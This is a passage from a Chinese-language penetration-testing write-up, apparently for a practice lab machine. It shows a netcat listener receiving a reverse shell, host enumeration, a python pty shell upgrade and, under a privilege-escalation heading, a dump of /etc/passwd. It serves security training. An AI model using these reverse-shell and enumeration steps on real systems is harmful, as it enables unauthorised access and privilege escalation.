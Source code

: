 -   获得初始shell

-   ```shell
    └─$ nc -nvlp 1234                         
    listening on [any] 1234 ...
    connect to [192.168.2.128] from (UNKNOWN) [192.168.2.134] 55443
    bash: no job control in this shell
    bash-3.2$ whoami
    apache
    bash-3.2$ ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
        inet6 ::1/128 scope host 
           valid_lft forever preferred_lft forever
    2: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast qlen 1000
        link/ether 00:0c:29:fe:01:38 brd ff:ff:ff:ff:ff:ff
        inet 192.168.2.134/24 brd 192.168.2.255 scope global eth1
        inet6 fe80::20c:29ff:fefe:138/64 scope link 
           valid_lft forever preferred_lft forever
    bash-3.2$ uname -a
    Linux localhost.localdomain 2.6.23.1-42.fc8 #1 SMP Tue Oct 30 13:55:12 EDT 2007 i686 i686 i386 GNU/Linux
    bash-3.2$ leb_release -a
    bash: leb_release: command not found
    bash-3.2$ sudo -l
    sudo: sorry, you must have a tty to run sudo
    bash-3.2$ python -c 'import pty;pty.spawn("/bin/bash");'
    bash-3.2$ sudo -l
    sudo -l
    Password:
    
    bash-3.2$ 
    
    ```

### 尝试提权

-   在目标机中发现众多账号，尝试寻找包含密码文件

-   ```shell
    cat /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    bin:x:1:1:bin:/bin:/sbin/nologin
    daemon:x:2:2:daemon:/sbin:/sbin/nologin
    adm:x:3:4:adm:/var/adm:/sbin/nologin
    lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
    sync:x:5:0:sync:/sbin:/bin/sync
    shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
    halt:x:7:0:halt:/sbin:/sbin/halt
    mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
    news:x:9:13:news:/etc/news:
    uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
    operator:x:11:0:operator:/root:/sbin/nologin
    games:x:12:100:games:/usr/games:/sbin/nologin
    gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
    ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
    nobody:x:99:99:Nobody:/:/sbin/nologin
    vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
    rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
    nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
    tcpdump:x:72:72::/:/sbin/nologin
    dbus:x:81:81:System message bus:/:/sbin/nologin
    rpm:x:37:37:RPM user:/var/lib/rpm:/sbin/nologin
    polkituser:x:87:87:PolicyKit:/:/sbin/nologin
    avahi:x:499:499:avahi-daemon:/var/run/avahi-daemon:/sbin/nologin